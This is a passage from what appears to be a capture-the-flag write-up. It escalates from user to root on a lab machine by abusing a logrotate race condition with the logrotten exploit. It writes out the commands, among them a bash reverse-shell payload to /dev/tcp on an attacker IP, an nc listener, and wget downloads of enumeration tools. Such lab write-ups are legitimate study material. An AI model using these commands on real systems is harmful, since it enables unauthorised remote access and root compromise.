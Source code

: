Then we upload that file as well, then check the PDF output.

{{< figure src="__GHOST_URL__/content/images/2020/03/image-12.png" >}}

Awesome, now we have a key. However, copy / pasting the key from the PDF doesn't seem to work within Kali. When I opened the file in Chrome outside of my VM I was able to copy / paste that just fine. We save the file and attempt to SSH in with our new key.

{{< figure src="__GHOST_URL__/content/images/2020/03/image-13.png" >}}

Now that we're in, let's snag the user.txt key and start to enumerate. We use 'wget' to download `LinEnum` or `LinPEAS` as well as `pspy`from our attacking machine and run it. We see some interesting items in the static enumeration. Such as book.timer calling other book functions. One thing that seems to catch my eye is when we are looking at the data via `pspy` we see this:

{{< figure src="__GHOST_URL__/content/images/2020/03/image-15.png" >}}

This shows up quite a bit. So we google around for log rotate exploit and we come back with a few items but this in particular is appealing: [logrotten](https://github.com/whotwagner/logrotten). There is a good article here on how this exploit works: [feedyourhead](https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition). 

So we need to have control of our path to use this exploit as well as some type of payload. When we look at the `backups` folder in our home directory we see we have full control of it and it's files. We also take a peek at the `logrotate.conf` file listed under `/etc/` to verify our permissions being set. Look's like we're in business!

{{< figure src="__GHOST_URL__/content/images/2020/03/image-16.png" >}}

Looks like indeed root is the ID being set we double check it against the `wtmp` file just to be sure.

{{< figure src="__GHOST_URL__/content/images/2020/03/image-17.png" >}}

Looks like we are in good shape. We have the ability to create our own payload. There are a few ways to go about that. The first is we can copy the root users SSH key to a temp file and then use that to SSH into the box. Alternatly we can create a payload with a NC reverse shell. The PoC gives us the code for a reverse shell so we'll use that same method.

First compile Logrotten.

Command:
`gcc -o logrotten logrotten.c`

Next create a payload.

Command:
`echo "bash -i >& /dev/tcp/10.10.14.196/4242 0>&1" > payload`

Now we copy the payload and logrotten to the target machine using `SimpleHTTPServer`.

{{< figure src="__GHOST_URL__/content/images/2020/03/image-18.png" >}}

We'll then open a `netcat` listener.

Command:
`nc -lvnp 4242`

Now we need to set launch the exploit.

Command:
`./logrotten -p ./payloadfile /home/reader/backups/access.log`
